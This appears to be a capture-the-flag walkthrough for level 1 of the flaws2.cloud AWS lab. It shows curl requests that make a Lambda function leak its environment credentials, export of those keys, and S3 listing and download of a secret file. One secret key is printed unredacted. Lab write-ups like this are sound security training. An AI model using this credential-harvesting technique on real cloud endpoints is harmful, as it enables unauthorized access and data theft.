



```bash
curl -v http://level1.flaws2.cloud/
* Host level1.flaws2.cloud:80 was resolved.
* IPv6: (none)
* IPv4: 16.15.180.110, 52.216.217.45, 16.182.64.149, 54.231.229.37, 3.5.19.89, 54.231.170.5, 52.217.139.213, 52.216.220.93
*   Trying 16.15.180.110:80...
* Established connection to level1.flaws2.cloud (16.15.180.110 port 80) from 192.168.93.137 port 50148 
* using HTTP/1.x
> GET / HTTP/1.1
> Host: level1.flaws2.cloud
> User-Agent: curl/8.18.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< x-amz-id-2: rGAKq5NrCrSoP44P2QgKgvB0yNzQYBG3lqoqQDj8Jn71waVRVMuA+V0sr/ubextLr2uyoRGz0RyWnoM+99HoovLQIz35wrOpdae72CEgqGM=
< x-amz-request-id: 4V540YY8W90AEVTP
< Date: Wed, 18 Feb 2026 22:10:08 GMT
< Last-Modified: Wed, 21 Nov 2018 02:00:17 GMT
< ETag: "b553e2a51b1197c74ec33feb8c6a1797"
< Content-Type: text/html
< Content-Length: 3000
< Server: AmazonS3
< 
```

In Burpsuite, looking at the response, you will notice the name form is making an api call to a particular web-form.


I'll curl that `endpoint` and look for interesting findings.

```bash
curl https://2rfismmoo8.execute-api.us-east-1.amazonaws.com/default/level1\?code\=1234 -v
* Host 2rfismmoo8.execute-api.us-east-1.amazonaws.com:443 was resolved.
* IPv6: (none)
* IPv4: 34.207.222.106, 100.49.216.56, 3.210.115.175, 54.157.178.87, 34.234.106.74, 98.87.59.45
*   Trying 34.207.222.106:443...
* ALPN: curl offers h2,http/1.1
<< SNIP >>
```
I also saw something interesting in the `Javascript` on wen url source code. It is wants to validate a code in the `input` section, this code has to be a number. 

```bash
For this level, you'll need to enter the correct PIN code.  The correct PIN is 100 digits long, so brute forcing it won't help.

            <script type="text/javascript">
                function validateForm() {
                    var code = document.forms["myForm"]["code"].value;
                    if (!(!isNaN(parseFloat(code)) && isFinite(code))) {
                        alert("Code must be a number");
                        return false;
                    }
                }
```

Let's try inputting something that is __NOT A NUMBER__, and I get `creds`.

```bash
curl https://2rfismmoo8.execute-api.us-east-1.amazonaws.com/default/level1\?code\=code
Error, malformed input
{"AWS_ACCESS_KEY_ID":"ASXXXXXXXXXXXXXXXXXXXXXXXXXXXX","AWS_LAMBDA_RUNTIME_API":"127.0.0.1:9001","LAMBDA_TASK_ROOT":"/var/task","AWS_SESSION_TOKEN":"XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX","AWS_LAMBDA_FUNCTION_VERSION":"$LATEST","AWS_REGION":"us-east-1","AWS_LAMBDA_FUNCTION_MEMORY_SIZE":"128","LAMBDA_RUNTIME_DIR":"/var/runtime","_AWS_XRAY_DAEMON_PORT":"2000","AWS_XRAY_CONTEXT_MISSING":"LOG_ERROR","AWS_LAMBDA_FUNCTION_NAME":"level1","_AWS_XRAY_DAEMON_ADDRESS":"169.254.79.129","LD_LIBRARY_PATH":"/var/lang/lib:/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/lib","AWS_XRAY_DAEMON_ADDRESS":"169.254.79.129:2000","AWS_LAMBDA_INITIALIZATION_TYPE":"on-demand","AWS_LAMBDA_LOG_STREAM_NAME":"2026/02/18/[$LATEST]beb04ee456a5419c9f5e9af71a5bd95b","_HANDLER":"index.handler","PATH":"/var/lang/bin:/usr/local/bin:/usr/bin/:/bin:/opt/bin","AWS_SECRET_ACCESS_KEY":"bfzXUlb4WJXa/rQIxAgypKJ7If+d7ogDRz3n/Fx7","TZ":":UTC","AWS_EXECUTION_ENV":"AWS_Lambda_nodejs8.10","LANG":"en_US.UTF-8","AWS_LAMBDA_LOG_GROUP_NAME":"/aws/lambda/level1","AWS_DEFAULT_REGION":"us-east-1","NODE_PATH":"/opt/nodejs/node8/node_modules:/opt/nodejs/node_modules:/var/runtime/node_modules:/var/runtime:/var/task:/var/runtime/node_modules","_X_AMZN_TRACE_ID":"Root=1-69963f09-0d53825959fc8b6738f20936;Parent=60d5b6543333d209;Sampled=0;Lineage=1:e547cb94:0"}
```

Such garbage, so I saved the output in a text file and piped it through `jq`.

```bash
nano aws-keys.txt
❯ cat aws-keys.txt | jq
{
  "AWS_ACCESS_KEY_ID": "ASIXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX",
  "AWS_LAMBDA_RUNTIME_API": "127.0.0.1:9001",
  "LAMBDA_TASK_ROOT": "/var/task",
  "AWS_SESSION_TOKEN": "IQoJb3JpZ2luX2VXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX",
  "AWS_LAMBDA_FUNCTION_VERSION": "$LATEST",
  "AWS_REGION": "us-east-1",
  "AWS_LAMBDA_FUNCTION_MEMORY_SIZE": "128",
  "LAMBDA_RUNTIME_DIR": "/var/runtime",
  "_AWS_XRAY_DAEMON_PORT": "2000",
  "AWS_XRAY_CONTEXT_MISSING": "LOG_ERROR",
  "AWS_LAMBDA_FUNCTION_NAME": "level1",
  "_AWS_XRAY_DAEMON_ADDRESS": "169.254.79.129",
  "LD_LIBRARY_PATH": "/var/lang/lib:/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/lib",
  "AWS_XRAY_DAEMON_ADDRESS": "169.254.79.129:2000",
  "AWS_LAMBDA_INITIALIZATION_TYPE": "on-demand",
  "AWS_LAMBDA_LOG_STREAM_NAME": "2026/02/18/[$LATEST]beb04ee456a5419c9f5e9af71a5bd95b",
  "_HANDLER": "index.handler",
  "PATH": "/var/lang/bin:/usr/local/bin:/usr/bin/:/bin:/opt/bin",
  "AWS_SECRET_ACCESS_KEY": "bfzXUlb4WJXa/rQIxAgypKJ7If+d7ogDRz3n/Fx7",
  "TZ": ":UTC",
  "AWS_EXECUTION_ENV": "AWS_Lambda_nodejs8.10",
  "LANG": "en_US.UTF-8",
  "AWS_LAMBDA_LOG_GROUP_NAME": "/aws/lambda/level1",
  "AWS_DEFAULT_REGION": "us-east-1",
  "NODE_PATH": "/opt/nodejs/node8/node_modules:/opt/nodejs/node_modules:/var/runtime/node_modules:/var/runtime:/var/task:/var/runtime/node_modules",
  "_X_AMZN_TRACE_ID": "Root=1-69963f09-0d53825959fc8b6738f20936;Parent=60d5b6543333d209;Sampled=0;Lineage=1:e547cb94:0"
}
```

You can also see it well in Burpsuite


Use the `export` command if you are using `Linux` to add the AWS CREDS to Env variables

```bash
export AWS_ACCESS_KEY_ID=ASIAZQXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
export AWS_SECRET_ACCESS_KEY=bfzXUlb4WJXa/XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
export AWS_SESSION_TOKEN=IQoJb3JpZ2lXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

<< snip for brevity >>
```

Since we all all the `flaws2.cloud` runs on Amazon S3. I'll check for accessible s3 buckets

```bash
aws s3 ls s3://level1.flaws2.cloud --region us-east-1
                           PRE img/
2018-11-20 15:55:05      17102 favicon.ico
2018-11-20 21:00:22       1905 hint1.htm
2018-11-20 21:00:22       2226 hint2.htm
2018-11-20 21:00:22       2536 hint3.htm
2018-11-20 21:00:23       2460 hint4.htm
2018-11-20 21:00:17       3000 index.htm
2018-11-20 21:00:17       1899 secret-ppxVFdwV4DDtZm8vbQRvhxL8mE6wxNco.html
```

Get the `secret` file.

```bash
aws s3 cp s3://level1.flaws2.cloud/secret-ppxVFdwV4DDtZm8vbQRvhxL8mE6wxNco.html \
    /home/kali/Downloads  \
    --region us-east-1
download: s3://level1.flaws2.cloud/secret-ppxVFdwV4DDtZm8vbQRvhxL8mE6wxNco.html to ./secret-ppxVFdwV4DDtZm8vbQRvhxL8mE6wxNco.html
```

Output

```bash
</head>
<< SNIP FOR BREVITY >>

  49   │             The next level is at <a href="http://level2-g9785tw8478k4awxtbox9kk3c5ka8iiz.flaws2.cloud">http://level2-g9785tw8478k
       │ 4awxtbox9kk3c5ka8iiz.flaws2.cloud</a>
  50   │             
  51   │         </div>
  52   │     </div>
  53   │ </div>
  54   │ 
  55   │ </body>
  56   │ </html>
  57   │ 
```

__Head to Level 2 -------->__